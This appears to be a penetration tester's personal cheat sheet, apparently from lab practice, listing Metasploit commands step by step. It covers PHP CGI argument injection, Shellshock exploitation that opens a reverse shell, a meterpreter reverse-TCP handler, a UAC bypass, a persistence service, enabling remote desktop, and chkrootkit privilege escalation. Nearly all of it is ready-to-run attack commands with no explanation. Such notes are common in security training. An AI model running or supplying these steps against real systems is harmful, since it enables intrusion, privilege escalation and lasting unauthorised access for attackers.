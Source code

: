## PHP Apache
	• msfconsole
	• use exploit/multi/http/php_cgi_arg_injection
	• set RHOSTS 10.2.19.172
	• exploit

## Shellshock 80 
	• nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	• msfconsole
	• use shellshock
	• use exploit/multi/http/apache_mod_cgi_env.exec
	  set rhosts ip
	  set TARGETURI /gettime.cgi  (devi mettere il path del cgi
	  exploit (apre una reverse shell)



# My List of modules for Post Exploitation

## Handler
	• msfconsole -q
	• use exploit/multi/handler
	  set PAYLOAD windows/meterpreter/reverse_tcp
	  set LHOST 10.10.20.2
	  set LPORT 4434
	  Exploit
## UAC Bypass: Memory Injection
	• use exploit/windows/local/bypassuac_injection
	  set session 1
	  set TARGET 1
	  set PAYLOAD windows/x64/meterpreter/reverse_tcp
	  set LPORT 4433
	  exploit
## Maintaining Access: Persistence Service
	• use exploit/windows/local/persistence_service
	  set SESSION 1
	  exploit

## Windows: Enabling Remote Desktop
	• use post/windows/manage/enable_rdp
	  set SESSION 1
	  exploit
## Privilege Escalation - Rootkit Scanner
	• use exploit/unix/local/chkrootkit
	  set CHKROOTKIT /bin/chkrootkit
	  set session 1
	  set LHOST 192.14.195.2
	  exploit
